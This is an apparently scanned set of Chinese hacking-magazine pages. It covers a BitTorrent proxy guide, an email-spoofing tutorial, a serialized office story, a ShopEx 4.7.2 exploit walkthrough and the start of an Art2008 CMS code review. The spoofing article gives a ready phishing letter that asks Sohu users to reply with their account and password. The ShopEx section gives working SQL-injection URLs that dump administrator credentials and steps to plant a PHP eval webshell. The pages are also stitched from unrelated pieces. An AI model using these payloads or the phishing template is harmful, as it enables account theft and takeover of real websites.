下载完 BT 种子后，就能用 BT 工具打开种子进行下载了，不过在正式下载前要先使用 HTTP 或 socks5 代理。如果局域网内用户不能 BT 下载，但是能上网浏览，你可以利用 HTTP 代理进行 BT 下载；如果 WWW 浏览也被禁止了，就用 socks5 代理进行 BT 下载。

HTTP、socks5 代理可以在百度或 Google 中输入“代理服务器”搜索得到，可以找到很多提供 HTTP、socks5 代理的网站，这里推荐以下代理服务器网站：

- http://www.haozs.net/proxyip/index.php
- http://www.proxycn.com/
- http://51proxy.net/http_fast.html
- http://proxy.daili.name/
- http://www.10pod.com/list/

在以上站找到代理后，在 BT 工具中设置一下就能实现 BT 下载了。目前 BT 工具（例如迅雷、eMule（电驴）、BT、BitComet 等）都支持 HTTP 代理，下面我们以迅雷 5 为例，介绍设置 BT 代理方法。

启动迅雷 5，点击菜单“工具”下的“设置代理”，在弹出的窗口中点“添加”按钮，如图2。

将刚才找到的 HTTP 和 socks5 代理添加进去，当提示“所有使用此代理类型的连接都使用此代理”时要点击“是”，最后点“确定”退出。

接下来点菜单“工具”下的“使用代理”，在弹出的窗口中选择一个代理（例如 138.245.99.249），如图3。然后点“确定”退出，就能通过该代理进行 BT 下载了。

其它 BT 工具也能使用代理服务器进行下载，设置代理方法与上面类似，例如比特精灵中设置代理是在“选项”→“个人设置”→“代理与内网”中添加；BitComet 中设置代理是点击“选项”→“网络连接”→“代理”，在右侧的“代理服务器类型”下拉列表框中选择“HTTP1.1”（或 socks5），在“服务器”和“端口”栏中分别输入代理服务器的 IP 地址、端口；如果代理服务器有用户名和密码，则勾选“代理服务器需要认证”并输入用户名和密码。

### 四、在网关上做端口映射，加快 BT 下载速度

如果你发现用代理进行 BT 下载，下载速度缓慢，可以在网关电脑上使用 PortMap（下载地址 http://www.onlinedown.net/soft/7023.htm）进行端口映射，这样即可提高 BT 下载速度，操作方法如下。

由于 BT 下载时，BT 软件都会用到 6881 端口～6889 端口，所以我们首先做 6881 端口映射。在网关电脑上下载安装 PortMap，然后运行 PortMap，单击工具栏中的“增加”按钮，弹出“增加/修改端口映射”窗口，如图4。

在“名称”框中输入某个端口的映射名称，例如“6881 端口映射”；在“输入 IP：”中选择“Any IP”，这样端口映射功能就能适用于局域网中任意一个工作站的 IP 地址；在“输入端口”中输入 6881；“输出 IP”为网关连接 Internet 时所用的公网 IP，请输入这个公网 IP；在“输出端口”中输入 6881（因为输入端口和输出端口要相同）。

设置好上面的参数后，单击“确定”按钮，网关上 BT 软件 6881 下载端口的映射关系就建好了。最后再用同样的方法做好网关上 BT 下载端口 6882～6889 的映射，设置完毕，内网用户就能通过指定端口 6881～6889 下载，不像之前那样需要网关随机分配端口来进行中转，因此内网 BT 下载的速度能大幅度提高。

最后要注意，BT 端口应尽量开得少一点，上面只开了 9 个端口（例如设置为 6881～6889）是比较合适的，这 9 个端口对开多窗口的人来说已经足够了，因为在不开防火墙的情况下，用户电脑中许多端口都是敞开的，所以不用担心可用的端口不够。另外，BT 端口只开 9 个也能提高下载速度，因为一旦 BT 端口数量开得过多，就会延长 BT 连接前选择端口的时间，端口范围缩小之后，BT 下载前连接 TLF 等等的时间就会大大缩短，从而也能加快 BT 下载速度。

> 编辑点评：看完文章就知道作者经常进行 BT 下载了，大家仔细看看，对你有帮助没？

## E-Mail 骗骗，你也行！

□ 年晓东（山东省招远一中新校微机组）

从本文你可以学到：如何进行 E-mail 的欺骗

曾看到不少人在入侵中提到了利用社会工程学，比如通过与对方 QQ 聊天或发邮件来获得敏感信息。其实反过来想一想，我们也可以冒充网站管理员来给自己感兴趣的邮箱发送欺骗信件，说不定也能轻松如愿的。

在以前流行的网络钓鱼、URL 欺骗以及 QQ 尾巴病毒中，特别喜欢利用数字 0 与字母 o、数字 1 与字母 l 的相似性来做文章。现在如果让对方收到一封用户名为 Webmaster（网站管理员）的 E-Mail，而信件与对方所使用的邮箱是同属一家的（比如 Sohu、126 等等），那么有可能会使鬼子上当。而且要做到这一点非常容易，因为在 Internet 上有专门提供此类服务的网站，它可以任意构造 E-Mail 的发送邮箱地址。

打开浏览器，在地址栏中输入“http://deadfake.com”后回车，马上你就会来到提供匿名发信的“dead fake”（死假）网站。用鼠标单击其中的“Send fake mail”（发送假邮件）选项卡进入邮件发送页面，此时只须按照提示一步步输入相应的内容即可，如图1。

“To:”后面填写目标邮箱，如 mxd7788@sohu.com；“From:”后面就是李鬼管理员的邮箱地址了，为了增加欺骗性，此处应填入与目标邮箱相同的服务商主机名，如 WebMaster@sohu.com；“Subject:”后面应填入信的主题，如“关于搜狐系统升级的重要通知”；“Message:”后面就是伪造的内容了，而且可以像在 Word 中一样进行字体、字号和对齐方式等的排版，如输入以下样本邮件内容：

> 亲爱的 mxd7788 搜狐用户：
>
> 您好！首先感谢您一直以来对我们工作的支持，为了更好地为大家服务，我们近期准备对所有的用户信箱进行扩容提速整理，请务必在收到此信后 3 天内将您的账号及密码回复给我们，由此给您带来的麻烦及种种不便，敬请原谅。多谢您的真诚合作！
>
> Sohu 管理员 WebMaster
>
> 2009年3月

这样，一封李鬼管理员信件就伪造成功了。接着在下面的“Security:”处输入网站提供的验证码，这是该网站为了防止批量群发和炸弹攻击而设置的防护措施；最后单击“Send now!”按钮，稍候该网站就会提示“Your message was successfully sent!”，也就是说我们这封李鬼信件已经到目标邮箱中去了。

为了验证一下，我们到搜狐网站登录进入刚才的目标信箱 mxd7788@sohu.com，果然，一封来自于 WebMaster@sohu.com 的名为“关于搜狐系统升级的重要通知”信件正静静躺在那里呢，如图2。

打开看一下，内容与在“dead fake”网站所编辑的一字不差，如图3。

欺骗性，五星！不过且慢，在信件的最后似乎还多加了一行英文，不仔细看还真没注意：“No, this email’s not real, it’s http://deadfake.com”。也就是说，人家提示我们这不是真实的信件，它是发自 dead fake 网站的。呵呵，真够聪明的，骗人效果好，而且为自己脱了干系。看看，只要我们多动脑筋多修改该信件的内容以增强迷惑性，再加上“dead fake”网站的伪造功能，搞 E-Mail 欺骗，不也很容易吗？

编辑点评：以前听说用 XSS 来盗取账户的邮箱，这回更容易了。网上什么东西都有，看来这篇文章真是防不胜防呀。

X-Apache；

检验机构证实，蒙牛特仑苏里面的 OMP 不含有害物质，可以放心喝。此消息一出，让经常喝高档牛奶的小资一族和蒙牛的打工人员都松了一口气。看到《太骄·特仑苏》还能保持连载，我也松了一口气。可不能因为版面不够就让咱断炊啊，呵呵。

题记：机遇这个东西，有时候到了跟前却把握不住，回过头来才明白，是因为准备不够。

几十天前，我每天工作 12 小时，一个月工资才 15 天。几十天后，我每天工作 8 小时，一个月工作 20 天，薪水上涨了 40%。造成这种局面的原因不是我的勤劳被领导所认可，而是……我换工作了。尽管之前之后的工作内容没有任何变化，但无疑，这就是所谓的机遇。所谓机遇，越跳越健康。

## 特仑苏 II



上班第一天，我感觉到些许惊异，不是源于工作内容变多了，而是由于所处位置不同，让我变得有些清闲了。

我还不太习惯在有些过于干净的办公桌前晒太阳，所以站起来到公司转了一圈，见着跟认识的不认识的人打招呼。这其实也有个说法，叫新官上任。为了增加一些存在感，很有必要让周围的人认识一下。这和古时候一家新当铺开张，要给周围的土豪劣绅递一张拜帖，告诉他们，“我是 XX，有问题您找我”是一样的。再或者，可以理解成一位北京来的副总，空降到上海，第一天就要开个全公司动员大会，会议内容其实不重要，重要的是告诉你，这地盘从今天起，跟爷姓了。

当然这种文化对一些初入职场的新人来说还是太复杂了一些，他们对领导除了个人崇拜就是嫉妒。而我对我的领导只有一种感觉，那就是惊喜。当和特仑苏一起愉快地聊事时，我觉得让一个女人骑在头上做领导，并不是一件坏事。尽管这之前，我是被一个女人给裁掉的，我还曾经对女人做领导持有怀疑态度。但是现在，赞美主啊，你让我又看到特仑苏了，我会努力为你工作作为报答的。

新的部门一共 5 个人，我那张桌子明显比他们的大很多，也干净得多。哈哈哈，权力催生腐化，果然一些人坐在那张大椅子上就不想起来。刚刚接到总裁办的女领导发来的月工作计划，让我安排一下实施。

考虑到我并没有特权召开全公司范围的动员大会，但是部门内的小型会议还是没有问题的。

“大家来，大家一起过来开个会。”我挥挥手，他们很乖巧地过来了，“这月我们要对 PDM 项目进行测试，然后争取在 3 个月内上马，同时对 ERP 系统数据进行优化，现在 ERP 的速度真的是太慢了。月底以前，公网的数据接口要全部挂载到 VPN 上，对外的只有我们公司的业绩主页，其它的要控制，不能直接访问。大家对实施方面有什么意见，尽管提，我们一起讨论一下。”

老实说我对这些人的了解仅限于几份简历和女领导的只言片语。这些人要说能力，也都有，配合一下用起来还是不错的。但是前段时间换了个风声说要提拔一位做部长，结果几个人干活质量变得有些糟了，无奈之下只能外聘。

我对公司的这种做法很是赞同，一般来说，普通人对于提拔上来的领导缺乏一定的尊重性，这样的领导初期容易丧失权威性，不利于工作展开。所以提拔人选的时候其实比较忌讳提前打招呼。

> “陈部，公网业务全部挂载到 VPN 上操作就比较麻烦了，我们在其他分公司还有项目，那些人对技术了解又不多，VPN 的拨号操作都不会，这样是不是太复杂了一些。”最年轻的小李问道。
> 
> “能不能公司内部用 VPN，外部还是公网访问？”

“内部我还用走 VPN 么？”我心说这孩子脑子是不是进水了，不过很明显她应该是怀疑我基础的技术知识。“VPN 就是给分公司用的，这个我会和总裁办姚总说一下的，作为行政命令下发下去。还有我不觉得 VPN 拨号是个很麻烦的事情，他们上班都能打网游，聊 QQ，抽出一点点时间学习一下公司的新业务都没时间么？要知道我们是集团直属部门，和别的部门都是平起平坐的，你们只要对我汇报，我给总裁办汇报就可以了。小李，一会后你联系下，发个通告，这个月 14 号，我们全线停止外网接入办公的 OA、ERP 以及相关系统，对于 VPN 客户端也要进行限制，20 日之前不更改 VPN 密码的我们要建议总裁办对这些员工罚款。”

说到这里我想起苏洛尔的信息化发展了，几年前他们推行信息化的时候，对员工拥有处罚权，对中层领导拥有建议权，严厉的罚款加降薪降职，让无纸化办公快速地推进了一大截。但是我们公司的这些本地人自然不敢对领导大呼小叫，但我是淮，我是空降兵啊，就算被裁那也有一大笔补偿金，所以我根本不在乎制度推行的难度。

下班之后我去享受公司的工作餐，意外地发现特仑苏也在那里吃饭。我摆了一个很风骚的 Pose，端着餐盘坐在她前面，刚准备开口说：“Hi，美女”时，她正好抬起头，然后冲我笑笑。正当我踌躇应该如何搭讪时，她却起身跑路了。

所以说机遇这个东西，可遇不可求。遇到了不把握，也是白搭。机会总是留给有准备的人，这句话果然没错。（未完待续……）

**编辑点评：**

由于这回主编给的版面比较少，所以没法给大家呈现更多篇幅的《特仑苏》了。记得上期看完之后，有朋友说有点“流氓文学”的意味，呵呵，我个人也觉得确实有一些，但是到底后面会怎么样，还是继续期待下一个集吧。

——新洞栏：大家好，我是小编浪文涯。年前在一次滑雪的时候不小心把右手摔骨折了，导致缺席了前面两期的编辑，感谢“冰的原点”的热力帮忙。今天开始，小编正式回归！本期内容不是很多，我们正在做一期国内安全水平和漏洞分析的读者回馈问卷，希望得到更多读者、朋友的反馈和建议。通过各种反馈，我们将整理出一份比较符合读者水平的报告，进而针对当前的读者水平有组织地挑出一些有针对性的专题。

## ShopEx 网上商城漏洞分析与利用

☒ rabbitsafe

- 从本文你可以学到：
- shopex 漏洞产生原因分析
- 漏洞的利用

大家好，今天给大家带来的文章是《shopex 网上商城系统漏洞分析与利用》，漏洞是无名兄弟发现的，但是网上讲解得太简单，很多新手朋友都不明白，为了照顾新手朋友们，我在此对漏洞进行详细分析和讲解，让大家可以了解得更加清楚。

此漏洞对 shopex 4.7.2 版本有效，成功利用此漏洞可以拿到 Webshell。我先到官方下载了最新的 shopex 4.7.2 版本，在本地搭建好 shopex，然后对漏洞文件源代码进行分析，并利用此漏洞拿到 Webshell。下面，大家就跟我一起进入今天的 shopex 漏洞分析吧。

### 一、获取管理员

ShopEx 网上商城系统是一套集建店平台和商城于一身的软件系统，该系统网上商店拥有完整规范的商流和金流，整合了几十家国内知名的支付网关，并且内置了多套精美模板，同时还提供灵活强大的模板编辑功能。商家可以根据自己的喜好对网上商店的前台页面做个性化设置，由此可见，shopex 的功能非常强大。

Shopex 漏洞出现在后台文件 **order_service.php** 中，它具有显示商品订单详细情况的功能，存放于 **syssite** 目录下的 **shopadmin** 目录中。order_service.php 文件中有一个非常重要的 **$v_id** 参数没有进行过滤，其它的后台文件都包含了 `include("config.inc.php")` 文件进行验证，但这次文件没有包含，不知道是程序员的疏忽，还是其它原因。因此，任何用户都可以访问 order_service.php 文件，配合以上两点，攻击者可以利用 union 联合查询猜解出管理员账号和口令。下面，我们来看看漏洞文件 order_service.php 的代码，如图 1。

```php
61: $uer_id = $_GET['v_id'];
62: $t = new template("./tpl");
63: $t->set_file("order_service", "order_service.htm");
64: $pager = newclass("Pager");
65: $Order = newclass("Order");
66: $User = newclass("User");
67: $Order->shopId = 1;
68: $Order->getlist($uer_id, 0);
69: $pager->totalRows = $Order->rowsFound;
70: $pager->currentPage = iif($_GET['p'] > 1, $_GET['p']);
```


从官方下载的 shopex 文件都用 zend 加密处理了，所以，我们首先要用工具对文件进行解密，这里推荐大家用《黑刀 Dezender 3.0》工具进行解密。从代码中，我们可以清楚地看到获取的 `$v_id` 参数没有进行任何过滤。

接下来，我们构造联合查询的 SQL 语句，以我本地网站为例，查询代码如下：

```text
http://127.0.0.1:808/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d08535f1002a8&&v_id=1+and+1=2+union+select+1,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sdb_mail_offer_operater%23
```

这里跟大家解释一下，其中的 **m_id** 对应订单表 **sdb_mail_orders** 中的 userid。提交以上代码，页面中会出现 1 位置，我们只要替换成管理员表中的用户名和口令字段就可以了。

由于一般的站只能显示 14 位长度，我们可以配合 **left(userpass,14)**、**mid(userpass,15,4)**、**right(userpass,14)** 来获取完整的 32 位密码。分别提交以下代码就可以获取完整的管理员账户和口令，代码如下。

显示管理员账户代码：

```text
http://127.0.0.1:808/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d08535f1002a8&&v_id=1+and+1=2+union+select+username,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sdb_mail_offer_operater%23
```

显示管理员口令代码：

```text
http://127.0.0.1:808/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d08535f1002a8&&v_id=1+and+1=2+union+select+left(userpass,14),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sdb_mail_offer_operater%23

http://127.0.0.1:808/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d08535f1002a8&&v_id=1+and+1=2+union+select+mid(userpass,15,4),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sdb_mail_offer_operater%23

http://127.0.0.1:808/syssite/shopadmin/order_service.php?m_id=1&key=986078fbe1474d61464d08535f1002a8&&v_id=1+and+1=2+union+select+right(userpass,14),2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4+from+sdb_mail_offer_operater%23
```

配合以上三段代码就可以显示出管理员完整口令，如图 2。



我们把猜解出来的管理员口令放到网上的 MD5 值破解网站进行破解，结果就要看大家的运气了。

### 二、获取 Webshell

接下来，我们想办法拿 Webshell。拿 Webshell 就要靠网站根目录下的 htmlcache.php 文件。htmlcache.php 文件主要是生成静态页面，生成 Webshell 就靠它了。我们先来看下它的源代码，如图 3。

```php
$url = base64_decode($_GET['url']);
$filename = base64_decode($_GET['filename']);
$signcode = $_GET['signcode'];
$verifycode = md5($url.$filename.'1e236443e5a30bb9910e0d48c994b8e6');
if ($_cvar['seoCacheTime'] == "0") {
    exit();
}
if (substr($filename, 0, 3) == "../") {
    exit();
}
$tempstring = "<iframe frameborder=\"0\" marginheight=\"0\" marginwidth...";
if ($verifycode != $signcode) {
    exit();
}
else if (intval($_cvar['seoCacheTime']) < time() - filemtime($file...)) {
    makehtml($url, $filename, $tempstring);
}
```



从代码中，我们可以看到 url 和 filename 这两个变量提交时用的是 base64 加密，`$verifycode` 变量是 url+filename+1e236443e5a30bb9910e0d48c994b8e6 的 32 位 md5 值，这些都可以办到，我们继续往下看。

filename 变量不能出现“../”，seoCacheTime 不能等于 0，`$verifycode` 要等于 `$signcode`，只要其中一个不满足，程序都会退出。其中 filename 和 signcode 这两个变量的值容易满足，但 seoCacheTime 变量的值不好处理，因为系统在 `syssite\home\shop\lib\shop.cache.php` 有定义，默认是 0，后台也没有可以设置的地方。

分析发现，后台的 **admin_seo_act.php** 文件可以设置 seoCacheTime 变量的值，我们只要在 url 里提交如下代码，就可以设置 seoCacheTime 变量的值，代码为：`http://127.0.0.1:808/syssite/shopadmin/admin_seo_act.php?act=savecachetime&seocachetime=60`，如图 4。



图 4 设置 CacheTime



图 5 提交成功

> 网上很多朋友问我，他直接提交会提示要求登录后台，这是为什么？

因为 `admin_seo_act.php` 文件是后台文件，设置了访问权限，系统管理员或普通管理员才能访问，所以要先猜解出管理员的账户和口令，然后登录系统后台，才能进行下一步拿 Webshell 的操作。

现在，我们拿 Webshell 的条件满足了，下面就开始拿 Webshell 吧。先对 `url` 和 `filename` 这两个变量进行 base64 加密：

- 1. `url=http://www.baidu.com/<?php eval($_POST[cmd]);?>`
  Base64 加密后为 `aHR0cDovL3d3dy5iYWlkdS5jb20vPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=`
- 2. `filename=80.php`
  Base64 加密后为 `ODAucGhw`
- 3. `signcode=url+filename+1e236443e5a30bb9910e0d48c994b8e6` 的 32 位 md5 值
- 4. 32 位 MD5 值后为 `htmlcache.php?url=aHR0cDovL3d3dy5iYWlkdS5jb20vPD9waHAgZXZhbCgkX1BPU1RbY21kXSk7Pz4=&filename=ODAucGhw&signcode=...`

以上处理完后，url 提交 `http://127.0.0.1:808/htmlcache.php?...`，如图 5。成功写入 `80.php` 文件到网站根目录下，用 lanker 一句话 PHP 后门客户端进行连接，如图 6。



图 6 连接成功

这样就成功拿到网站 Webshell。无名兄弟写了一个漏洞利用工具，方便 Base64 加密和 md5 加密，一起奉献到光盘，呵呵。

### 三、总结

shopex 网上商城漏洞分析与利用到此就结束了，漏洞的产生还是由于程序员疏忽，对于 `$v_id` 参数没有过滤。后面拿 Webshell 都要靠前面，前面那一步不能成功，后面拿 Webshell 就不好办了。感觉这个漏洞还是蛮有意思的，一环扣一环，环环相扣，最后成功拿到 Webshell。希望新手朋友们能自己在本机搭建环境进行演练，只有多动手才能学好知识。如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

（文中提到的黑刀 Dezender 3.0 和 shopex 4.7.2 利用程序.html 已经收录在光盘中）

## 编辑点评：

找漏洞的时候要求有严谨的思维能力，常常是发现一个很明显或隐藏的漏洞，但是这个漏洞的利用又受限于其它条件，再寻找其它条件的突破，是非常有意思的。如此这般，包括扩展，到最终突破所有限制的时候，你会会心一笑。

## Art2008 漏洞分析

Art2008 CMS 是一款具有强大功能的基于 ASP 语言的网站管理软件，支持 ACCESS 数据库，它是一款完全开源的程序，用户不需额外安装其它 DLL 组件，其最大的特点是易用，而且可调用方法简单直观。拥有的多重安全机制和权限控制，为网站安全保驾护航，支持后台 Cookie 加密、验证码 IP 锁定、IP 白名单、防 SQL 注入、防跨站脚本、防脚本文件上传等。看来 Art2008 CMS 官方的介绍很强大啊，程序既然对安全这么重视，那我就检测看看是否果真如此啦！

在本地用 IIS 打开网站，界面和科讯有点类似，整体设计风格不错，现在网上大多数 CMS 程序都设计得很好，如图 1。

像这样的程序我就不盲注了，估计也不会有这么低级的漏洞，还是打开文件从代码入手吧。首先来看系统最常用的 `news_view.asp` 文件，主要代码如下：



图 1 整体界面

```asp
<%
nextpage_string=trim(config("nextpage")) '这个分页符已在配置中设置
page_css=trim(config("page_css"))    '分页的样式、字符型
page=chkhtml(trim(Request("page")))  '文章的页数
if page="" or not isNumeric(page) then page=0 '空页数或不是数字时，默认是第一页
```

## 新洞练练看

```asp
<%
page=clng(page)
news_Pay=request.QueryString("news_Pay")    '这个地方变更new_pay

newsid=chkhtm(trim(request("newsid")))      '变量newsid在线取值之前经过chkhtm过滤
if newsid="" then newsid=chkhtm(trim(Request("id")))
id=newsid
if newsid="" then
    Response.Write "<BR><BR><BR><center>参数不正确</center>"
    response.end
end if
%>
```

上面的代码中变量 newsid 经过了 chkhtm 函数过滤，接下来看看 chkhtm 函数是怎么写的，此函数包含在 admin/titleb.asp 文件中，代码如下：

```asp
<%
function chkhtm(stra)
    stra=replace(stra,"<","&lt;")
    stra=replace(stra,">","&gt;")
    stra=replace(stra,"'","")
    stra=replace(stra,"""","")
    stra=replace(stra," "," ")
    stra=replace(stra,"  "," ")
    stra=replace(stra,";","")
    stra=replace(stra,"%","％")
    stra=replace(stra,"+","＋")
    chkhtm=stra
end function
%>
```

